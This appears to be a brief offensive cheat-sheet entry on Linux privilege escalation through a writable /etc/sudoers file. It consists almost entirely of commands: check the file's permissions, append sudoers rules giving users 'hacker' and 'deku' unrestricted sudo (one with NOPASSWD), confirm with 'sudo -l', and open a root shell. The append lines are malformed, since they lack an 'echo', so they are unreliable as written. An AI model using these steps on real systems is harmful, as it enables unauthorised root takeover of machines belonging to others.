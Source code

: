 ## What ?
Configuration file that defines which users can run commands with sudo. Writable access allows giving yourself root privileges.

### How to ?
Check permissions of `/etc/sudoers`
```
ls -l /etc/sudoers
```
Overwrite `/etc/sudoers`:
```
hacker ALL=(ALL:ALL) ALL >> /etc/sudoers
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```
Check privileges
```
sudo -l
```
ROOT
```
sudo /bin/bash
```